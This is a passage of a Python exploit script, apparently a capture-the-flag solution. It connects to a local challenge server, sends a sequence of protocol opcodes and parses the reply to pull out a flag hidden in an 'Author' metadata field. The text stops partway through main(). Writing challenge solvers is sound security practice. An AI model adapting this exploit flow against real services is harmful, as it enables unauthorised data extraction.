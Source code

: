 ```
    tag = hdr[0]
    length = hdr[1] | (hdr[2] << 8)
    payload = read_exact(io, length, timeout=timeout)
    if len(payload) < length:
        return None
    return tag, payload


# Response parsing -----------------------------------------------------------

PRINTABLE_RE = re.compile(rb"[ -~]{1,256}")


def tokenize_printables(data: bytes) -> List[bytes]:
    return [m.group(0) for m in PRINTABLE_RE.finditer(data)]


def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        if tok in keys and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = tok.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=0.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=0.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        kv, raw = exploit_fetch_metadata(io)
        if kv:
```